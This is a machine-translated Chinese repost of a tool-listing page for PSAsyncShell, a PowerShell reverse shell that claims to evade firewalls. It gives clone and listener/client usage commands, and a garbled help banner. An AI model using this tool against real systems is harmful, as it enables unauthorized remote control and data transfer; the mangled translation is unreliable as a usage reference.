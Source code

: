 # PSAsyncShell : PowerShell 异步 TCP 反向外壳

> 原文：<https://kalilinuxtutorials.com/psasyncshell/>

[![](img//1b93d561b8546645cc0524d1fa63d855.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjtKsO5g7QOX_lYRN1PLK_Wqe0fnEbnBMRPr4Ut9R35grK44I9JHIwevMkJOt9EGhMDoihGswnupeNhQwlwpnxCSazoM8MqAzT3nKLSLz5Z1tQtBj9p1qiJB_fDjHw5RmK83bBqz8ed2HzgYqg4D4I7JkfvT_S7GkTb85muzObviscm3eIlEjuLAzWS/s608/PSAsyncShell%20(1).png)

**PSAsyncShell** 是一个用纯 PowerShell 编写的异步 TCP 反向 Shell。

与其他反向 shells 不同，所有的通信和执行流都是异步完成的，允许绕过一些防火墙和一些针对这种远程连接的对策。

此外，该工具还具有命令历史记录、屏幕擦除、文件上传和下载、分块信息和反向 Base64 URL 编码流量等功能。

# 要求

*   PowerShell 4.0 或更高版本

# 下载

建议克隆完整的存储库或下载 zip 文件。您可以通过运行以下命令来实现这一点:

**git 克隆 https://github.com/JoelGMSec/PSAsyncShell**

## 使用

**。\ psasyncshell . PS1-h
*_**_ _ _ _ _ _ _ | _ \/*|/\ _*/*| | |*_*| | | | |*)_ _ _ _ _ _ \/_ \/| | | ' _ \/_ _ _ _ _ _ | ' _ \/_ \ | ' _ \/_ \ |
|/*/*\ _*\\ |*| | | |(_*| |*)| | |/| |*| |*/*/_ _/_*，|*|*| |*/| | | | ^ _ ^ | ^ _ ^ |*/
————————————————
信息:此工具帮助您获得 \ psasyncshell . PS1-s-p Listen _ port
监听来自客户端
的新连接。\ PSAsyncShell . PS1-c server _ IP server _ port
将客户端连接到 PSAsyncShell 服务器
警告:各部分之间的所有信息将以不加密方式发送
下载&上传功能不使用多部分***

[**Download**](https://github.com/JoelGMSec/PSAsyncShell)